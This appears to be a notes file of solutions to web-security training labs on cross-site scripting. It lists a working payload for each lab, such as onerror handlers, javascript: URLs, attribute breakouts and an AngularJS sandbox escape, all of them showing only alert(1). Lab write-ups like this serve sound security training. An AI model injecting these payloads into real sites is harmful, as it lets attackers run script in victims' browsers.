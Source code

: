 Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ```" autofocus onfocusin='alert(1)' x="```


Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ```https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ```123'; alert(1);//```


Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ```https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ```{{constructor.constructor('alert(1)')()}}```

